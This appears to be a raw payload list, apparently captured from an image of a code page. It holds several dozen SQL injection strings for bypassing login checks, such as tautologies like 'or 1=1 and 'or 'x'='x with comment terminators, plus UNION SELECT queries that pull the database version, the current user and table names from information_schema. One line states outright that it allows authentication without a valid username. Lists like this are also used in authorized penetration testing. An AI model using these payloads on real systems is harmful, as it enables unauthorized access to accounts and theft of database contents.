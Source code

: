 ```
' or 1=1;#
') or '1'='1
') or '1'='1'#
') or '1'='1'--
') or '1'='1'/*
') or '1'='1--
') or ('1'='1
') or ('1'='1'#
') or ('1'='1'--
') or ('1'='1'/*
') or ('1'='1--
'or'1=1
'or'1=1?
) or '1?='1-
) or ('1?='1-
or 1=1
or 1=1#
or 1=1--
or 1=1/*
'OR 1=1--
' or 1=1 limit 1 -- -+
' or 1=1 LIMIT 1;#
"or 1=1 or ""="
'or 1=1 or ''='
" or "a"="a
") or ("a"="a
' or 'a'='a
' or a=a-
' or a=a--
') or ('a'='a
') or ('a'='a and hi") or ("a"="a
'OR '' = '	Allows authentication without a valid username.
'=' 'or' and '=' 'or'
' or 'one'='one
' or 'one'='one-
 or true
" or true--
") or true--
' or true--
') or true--
or true--
' or uid like '%
' or uname like '%
' or userid like '%
' or user like '%
' or username like '%
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
' or 'x'='x
') or ('x')=('x
') or ('x'='x
')) or (('x'))=(('x
' OR 'x'='x'#;
' UNION ALL SELECT 1, @@version;#
' UNION ALL SELECT system_user(),user();#
' union select 1, '<user-fieldname>', '<pass-fieldname>' 1--
' UNION select table_schema,table_name FROM information_Schema.tables;#
<username>'--
<username>' OR 1=1--
```
